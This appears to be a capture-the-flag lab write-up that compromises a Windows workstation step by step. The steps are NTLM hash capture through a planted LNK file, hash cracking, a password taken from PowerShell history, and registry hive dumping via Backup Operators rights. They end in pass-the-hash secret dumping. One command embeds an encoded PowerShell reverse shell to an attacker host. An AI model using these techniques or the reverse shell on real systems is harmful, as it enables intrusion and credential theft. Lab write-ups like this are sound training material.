

As usual I will start by checking for all the alive services over all the TCP protocol:

```bash
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2026-04-20T13:00:44+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=WS02
| Issuer: commonName=WS02
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-19T02:10:26
| Not valid after:  2026-10-19T02:10:26
| MD5:     b489 99f9 5c4d 19eb a9f3 75b0 c8ce dd66
| SHA-1:   b3bc 18ba e651 6ee8 b179 c7f1 a404 0c81 ed67 9d77
| SHA-256: 8be8 4829 2dda eb77 a1eb daab 1c9d 64f4 9f18 42f8 4aea f020 a80a d92d 88b3 93c9
| -----BEGIN CERTIFICATE-----
| MIICzDCCAbSgAwIBAgIQMNYMsiRqkrFEj13hAsgJpzANBgkqhkiG9w0BAQsFADAP
| MQ0wCwYDVQQDEwRXUzAyMB4XDTI2MDQxOTAyMTAyNloXDTI2MTAxOTAyMTAyNlow
| DzENMAsGA1UEAxMEV1MwMjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEB
| APBsFf5sScqvUx9HEd+pybw/DWUXtSY2W3l36YWOTxhFJ2vJ4OTaNwBBMhoxpr5x
| mBgO6bbTVCkVMsbiCmeHN3iGZwIVjbWYKmhfAQhwt209nwNvV+T0i6e9MgDGkqWu
| GGwpup+bvNDxIXwFAvgprEP5xzFsVYPaDCP2gCPyfwPegZyIGMqK6bgJyD5dPOTT
| KSAJRkU3QNN3PTJ2FitlTjyHtwUAUOqI+GrrxwrqwwAmGLMFEeSOAPfLxK3cYIpc
| T617/mP0CsRPcCuOJNwd26aV4y3Vv3iYTlqtam9/Ey/88NWT4tPiAJC4wx6Ki6Pw
| WsswqMeMAEI1Qa+Apt2bqMECAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEw
| CwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IBAQCPpsyjrExQQzETAh0CmSOX
| zKdUkURLvFLp/+1LxYrRHOfp9c8QWTxle5BkaH+Gd6fk4XoMRtERY0Xhk7hI5NjE
| rHE7S00+PbRkgR7+AssnGJvuU+KqrT/bQVW7S4vsF9C65A8fDt/kuiSjatj3trlX
| CdxZNDbd6uEZCPWaA2CJxwkfg+jKa4Q2FuRDdIIOM0zkU8ozlyID7G/JXaSNjovy
| dgexpCVZW38WlLV1MYSxq+UGozTKCtFTLYeixnl8qAtG6vxg8m08L6HLtTLqfSZi
| LnxoqhnpI1uLxxOl1GSvqSz+XRvLvHWodLKqH8xuFDGE7qYr/TYAz93yS9fh4eor
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: WS02
|   NetBIOS_Domain_Name: WS02
|   NetBIOS_Computer_Name: WS02
|   DNS_Domain_Name: WS02
|   DNS_Computer_Name: WS02
|   Product_Version: 10.0.19041
|_  System_Time: 2026-04-20T13:00:31+00:00
5040/tcp  open  unknown       syn-ack ttl 64
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Google Fuchsia (86%)
OS CPE: cpe:/o:google:fuchsia
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Google Fuchsia (86%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.99%E=4%D=4/20%OT=135%CT=%CU=%PV=Y%G=N%TM=69E6237A%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=10F%TI=I%CI=RD%II=RI%TS=A)
SEQ(SP=105%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 17.929 days (since Thu Apr  2 16:43:24 2026)
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

# SMB

Now seems like this machine is detached from the previous one but I see that guest users can R+W on a custom share:

```bash
netexec smb 172.16.0.33 -u aepike -p LandIAtErOUs --shares
SMB         172.16.0.33     445    WS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.33     445    WS02             [+] WS02\aepike:LandIAtErOUs (Guest)
SMB         172.16.0.33     445    WS02             [*] Enumerated shares
SMB         172.16.0.33     445    WS02             Share           Permissions     Remark
SMB         172.16.0.33     445    WS02             -----           -----------     ------
SMB         172.16.0.33     445    WS02             ADMIN$                          Remote Admin
SMB         172.16.0.33     445    WS02             C$                              Default share
SMB         172.16.0.33     445    WS02             DEVELOPMENT     READ,WRITE      Development tools
SMB         172.16.0.33     445    WS02             IPC$            READ            Remote IPC

```

What seems like there is a secondary git?

```bash
impacket-smbclient aepike:'LandIAtErOUs'@172.16.0.33 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
DEVELOPMENT
IPC$
# use DEVELOPMENT
# ls
drw-rw-rw-          0  Mon Apr 20 17:01:13 2026 .
drw-rw-rw-          0  Mon Apr 20 17:01:13 2026 ..
-rw-rw-rw-        201  Fri Dec  8 13:44:58 2023 devgit.url
# cat devgit.url
[{000214A0-0000-0000-C000-000000000046}]
Prop3=19,11
[InternetShortcut]
IDList=
URL=https://172.16.0.21:3000/
IconIndex=8
HotKey=0
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe

# 


```

But that indeed is the internal server IP of the WEB01 machine so i will try to plant a malicious file via slinky:

```bash
etexec smb 172.16.0.33 -u aepike -p LandIAtErOUs -M slinky -o SERVER=10.10.14.12 NAME=backup
SMB         172.16.0.33     445    WS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.33     445    WS02             [+] WS02\aepike:LandIAtErOUs (Guest)
SMB         172.16.0.33     445    WS02             [*] Enumerated shares
SMB         172.16.0.33     445    WS02             Share           Permissions     Remark
SMB         172.16.0.33     445    WS02             -----           -----------     ------
SMB         172.16.0.33     445    WS02             ADMIN$                          Remote Admin
SMB         172.16.0.33     445    WS02             C$                              Default share
SMB         172.16.0.33     445    WS02             DEVELOPMENT     READ,WRITE      Development tools
SMB         172.16.0.33     445    WS02             IPC$            READ            Remote IPC
SLINKY      172.16.0.33     445    WS02             [+] Found writable share: DEVELOPMENT
SLINKY      172.16.0.33     445    WS02             [+] Created LNK file on the DEVELOPMENT share

```

And I see a callback from calde:

```bash
[!] Error starting TCP server on port 80, check permissions or other servers running.
[SMB] NTLMv2-SSP Client   : 10.10.110.1
[SMB] NTLMv2-SSP Username : WS02\calde
[SMB] NTLMv2-SSP Hash     : calde::WS02:c00227dbf6cad5b8:FCFFC966A0DFFDEAF28B2004F9514B2E:01010000000000008010758BE7D0DC011400195FF64BB50E0000000002000800430036004600550001001E00570049004E002D0036004F0043005000530034004F00470053005900350004003400570049004E002D0036004F0043005000530034004F0047005300590035002E0043003600460055002E004C004F00430041004C000300140043003600460055002E004C004F00430041004C000500140043003600460055002E004C004F00430041004C00070008008010758BE7D0DC01060004000200000008003000300000000000000000000000002000007767538B04F71D6FDE7AC6E9E2282CF4460A4BB646E7509CD404324D03BE337A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310032000000000000000000
[*] Skipping previously captured hash for WS02\calde
[*] Skipping previously captured hash for WS02\calde
[*] Skipping previously captured hash for WS02\calde
[*] Skipping previously captured hash for WS02\calde
[*] Skipping previously captured hash for WS02\calde
[*] Skipping previously captured hash for WS02\calde

```

And I have another password:

```bash
CALDE::WS02:c00227dbf6cad5b8:fcffc966a0dffdeaf28b2004f9514b2e:01010000000000008010758be7d0dc011400195ff64bb50e0000000002000800430036004600550001001e00570049004e002d0036004f0043005000530034004f00470053005900350004003400570049004e002d0036004f0043005000530034004f0047005300590035002e0043003600460055002e004c004f00430041004c000300140043003600460055002e004c004f00430041004c000500140043003600460055002e004c004f00430041004c00070008008010758be7d0dc01060004000200000008003000300000000000000000000000002000007767538b04f71d6fde7ac6e9e2282cf4460a4bb646e7509cd404324d03be337a0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000:london
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: CALDE::WS02:c00227dbf6cad5b8:fcffc966a0dffdeaf28b20...000000
Time.Started.....: Mon Apr 20 17:06:21 2026 (1 sec)
Time.Estimated...: Mon Apr 20 17:06:22 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2164.7 kH/s (1.78ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> whitetiger
Hardware.Mon.#01.: Util: 25%

Started: Mon Apr 20 17:06:19 2026
Stopped: Mon Apr 20 17:06:24 2026
                                       
```

And this user can again WINRM to this machine, but I am not sure if he is admin or not:

```bash
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec winrm 172.16.0.33 -u calde -p london         
WINRM       172.16.0.33     5985   WS02             [*] Windows 10 / Server 2019 Build 19041 (name:WS02) (domain:WS02) 
WINRM       172.16.0.33     5985   WS02             [+] WS02\calde:london (Pwn3d!)

```

And now i can grab another flag:

```bash
evil-winrm-py PS C:\Users\calde\Desktop> ls


    Directory: C:\Users\calde\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         12/8/2023   4:43 AM             42 flag.txt                                                              


evil-winrm-py PS C:\Users\calde\Desktop> cat flag.txt
ALCHEMY{cl05Ur3_0F_C0Un7ry_M4y_83_PR00Dn7}
evil-winrm-py PS C:\Users\calde\Desktop>


```

But now I see a big hole?  


And these are the local admins:

```bash
evil-winrm-py PS C:\Users> ls


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
d-----         12/8/2023   4:44 AM                Administrator                                                         
d-----         12/8/2023   4:42 AM                anhalt                                                                
d-----         3/12/2024   7:56 AM                calde                                                                 
d-----         12/8/2023   4:43 AM                james                                                                 
d-r---        10/10/2020  12:37 PM                Public                                                                


evil-winrm-py PS C:\Users> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.

evil-winrm-py PS C:\Users>

```

# Road to Root

Now since the Winpeas did not show traces a quick and obvious paths. I will upload a meterpreter session and check from there, and I have some possible paths:

```bash
#   Name                                                              Potentially Vulnerable?  Check Result
 -   ----                                                              -----------------------  ------------
 1   exploit/windows/persistence/registry                              Yes                      The target is vulnerable. Registry writable
 2   exploit/windows/persistence/registry_userinit                     Yes                      The target is vulnerable. Registry likely exploitable
 3   exploit/windows/persistence/service_for_user/lock_unlock          Yes                      The target appears to be vulnerable. Target is likely exploitable
 4   exploit/windows/persistence/service_for_user/logon                Yes                      The target appears to be vulnerable. Target is likely exploitable
 5   exploit/windows/persistence/service_for_user/schedule             Yes                      The target appears to be vulnerable. Target is likely exploitable
 6   exploit/windows/persistence/startup_folder                        Yes                      The target appears to be vulnerable. Likely exploitable, able to write test file to C:\Users\calde\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
 7   exploit/windows/persistence/userinit_mpr_logon_script             Yes                      The target is vulnerable. Registry path is writable

```

But the exploit suggester is actually failinf got some reasons:

```bash
msf post(multi/recon/local_exploit_suggester) > run
[*] 172.16.0.33 - Collecting local exploits for x64/windows...
[-] 172.16.0.33 - Post failed: NameError uninitialized constant HTTP
[-] 172.16.0.33 - Call stack:
[-] 172.16.0.33 -   /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/http-cookie-1.1.4/lib/http/cookie_jar/hash_store.rb:3:in `<top (required)>'
[-] 172.16.0.33 -   /usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
[-] 172.16.0.33 -   /usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:34:in `require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/lib/msf/core/exploit/remote/http/http_cookie_jar.rb:2:in `<top (required)>'
[-] 172.16.0.33 -   /usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `require'
[-] 172.16.0.33 -   /usr/lib/ruby/3.3.0/bundled_gems.rb:69:in `block (2 levels) in replace_require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/bootsnap-1.23.0/lib/bootsnap/load_path_cache/core_ext/kernel_require.rb:33:in `require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/zeitwerk-2.7.5/lib/zeitwerk/core_ext/kernel.rb:26:in `require'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/lib/msf/core/exploit/remote/http_client.rb:99:in `initialize'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/modules/exploits/bsdi/softcart/mercantec_softcart.rb:13:in `initialize'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `new'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/lib/msf/core/module_set.rb:37:in `create'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:151:in `block in setup'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:149:in `each'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:149:in `each_with_index'
[-] 172.16.0.33 -   /usr/share/metasploit-framework/modules/post/multi/recon/local_exploit_suggester.rb:149:in `setup'
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 

```

Now I did a manual check and seems like this is a unpatched version of windows 10:

```bash
evil-winrm-py PS C:\Temp> [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      19045  0  
```

Now, since none of the poc worked I did a step back and apparently the anhalt user is what I need to find:

```bash
evil-winrm-py PS C:\users\calde> net user anhalt
User name                    anhalt
Full Name                    anhalt
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/8/2023 5:42:21 AM
Password expires             Never
Password changeable          12/8/2023 5:42:21 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   12/8/2023 5:42:21 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

But then I decided to check the Powershell history and that's where I got the user I needed:

```bash
il-winrm-py PS C:\Users\calde\Documents> cat C:\Users\calde\AppData\
Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.tx
t
Get-ChildItem -Path C:\Windows
Copy-Item -Path "C:\Source\init.txt" -Destination "D:\Macbook\" -Force
Move-Item -Path "D:\Source\init.txt" -Destination "E:\Linux\" -Force
Remove-Item -Path "C:\Temp\oinit.txt" -Force
New-Item -Path "C:\Temp\areia" -ItemType Directory
Rename-Item -Path "C:\oinit.txt" -NewName "C:\ninit.txt"
Get-Process | Where-Object { $_.Name -eq "explorer" }
Start-Process -FilePath "notepad.exe" -ArgumentList "C:\Example\File.txt"
Stop-Process -Name "chrome" -Force
Get-Service | Where-Object { $_.Status -eq "Running" }
Start-Service -Name "wuauserv"
Stop-Service -Name "wuauserv"
Restart-Service -Name "wuauserv"
Get-LocalUser
New-LocalUser -Name "anhalt" -Password (ConvertTo-SecureString "depomm}Og7" -AsPlainText -Force)
Remove-LocalUser -Name "testaccount"
Add-LocalGroupMember -Group "Remote Management Users" -Member "anhalt"
Test-Connection -ComputerName "google.com" -Count 4
Test-NetConnection -ComputerName "example.com" -Port 80
Get-NetAdapter
Get-Item -Path "HKLM:\Software\"
Set-Item -Path "HKLM:\Software\test" -Name "test" -Value "1" -Type String
New-ItemProperty -Path "HKLM:\Software\test" -Name "test" -Value "1" -PropertyType String
Remove-ItemProperty -Path "HKLM:\Software\test" -Name "test"
Get-WindowsFeature
Install-WindowsFeature -Name "Web-Server" -IncludeManagementTools
clean.ps1
.\clean.ps1
dir
.\clean.ps1

```

Now I can spawn a new shell via netexec(this is because for some reasons I can't login via Evil-WINRM):



Now the absolute easiest in order to abuse the backup permission is to backup the local hives:

```bash
PS C:\temp> reg save HKLM\SYSTEM system.bak
The operation completed successfully.

PS C:\temp> reg save HKLM\SOFTWARE software.bak
The operation completed successfully.

PS C:\temp> reg save HKLM\SAM sam.bak
The operation completed successfully.

PS C:\temp> 

```

```bash
└─$ netexec winrm 172.16.0.33 -u anhalt -p 'depomm}Og7' -X "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA1ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
WINRM       172.16.0.33     5985   WS02             [*] Windows 10 / Server 2019 Build 19041 (name:WS02) (domain:WS02) 
WINRM       172.16.0.33     5985   WS02             [+] WS02\anhalt:depomm}Og7 (Pwn3d!)


```

And now I can dump the sam file which is well enougnt for what i need to do:

```bash
 impacket-secretsdump -sam sam.bak -system system.bak  LOCAL                      
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x16b412eaedb652ad9007514dc1e32692
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1d18cf888427614aed981dc8ca49630:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
calde:1002:aad3b435b51404eeaad3b435b51404ee:4907c5bd07521a0b5d6700c7950012c7:::
anhalt:1003:aad3b435b51404eeaad3b435b51404ee:7cfebd50b41d8881a71ae68e9ebccb57:::
james:1004:aad3b435b51404eeaad3b435b51404ee:e29e07c0ebe154e5a040b1cb393e3e20:::
[*] Cleaning up... 
                   
```

And these dumped secrets:

```bash
netexec smb 172.16.0.33 -u Administrator -H d1d18cf888427614aed981dc8ca49630 --sam --lsa --dpapi
SMB         172.16.0.33     445    WS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.33     445    WS02             [+] WS02\Administrator:d1d18cf888427614aed981dc8ca49630 (Pwn3d!)
SMB         172.16.0.33     445    WS02             [*] Dumping SAM hashes
SMB         172.16.0.33     445    WS02             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1d18cf888427614aed981dc8ca49630:::
SMB         172.16.0.33     445    WS02             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.33     445    WS02             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.33     445    WS02             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
SMB         172.16.0.33     445    WS02             calde:1002:aad3b435b51404eeaad3b435b51404ee:4907c5bd07521a0b5d6700c7950012c7:::
SMB         172.16.0.33     445    WS02             anhalt:1003:aad3b435b51404eeaad3b435b51404ee:7cfebd50b41d8881a71ae68e9ebccb57:::
SMB         172.16.0.33     445    WS02             james:1004:aad3b435b51404eeaad3b435b51404ee:e29e07c0ebe154e5a040b1cb393e3e20:::
SMB         172.16.0.33     445    WS02             [+] Added 7 SAM hashes to the database
SMB         172.16.0.33     445    WS02             [*] Dumping LSA secrets
SMB         172.16.0.33     445    WS02             WS02\calde:london
SMB         172.16.0.33     445    WS02             dpapi_machinekey:0x8c3159c752f9a9ae2cb3d1ad589df0f678d7a453
dpapi_userkey:0x66ab675890bdde999ede9b7912b40959a936adbb
SMB         172.16.0.33     445    WS02             Security questions for user S-1-5-21-3089243881-3525850343-252262830-1001: 
 - Version : 1
 | Question: What was your childhood nickname?
 | |--> Answer: Welcome1
 | Question: What’s the name of the city where your parents met?
 | |--> Answer: Welcome1
 | Question: What’s the name of the first school you attended?
 | |--> Answer: Welcome1
SMB         172.16.0.33     445    WS02             [+] Dumped 3 LSA secrets to /home/user/.nxc/logs/lsa/WS02_172.16.0.33_2026-04-21_134622.secrets and /home/user/.nxc/logs/lsa/WS02_172.16.0.33_2026-04-21_134622.cached
SMB         172.16.0.33     445    WS02             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.0.33     445    WS02             [+] Got 21 decrypted masterkeys. Looting secrets...

```

Now I can also login with the local administrative credentials and obtian another flag:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         12/8/2023   4:43 AM             42 flag.txt                                                              


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
ALCHEMY{M0M3N70_m0R1_l1V3_Y0ur_L1f3_fULLy}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

Now I need to move on to the new subnet.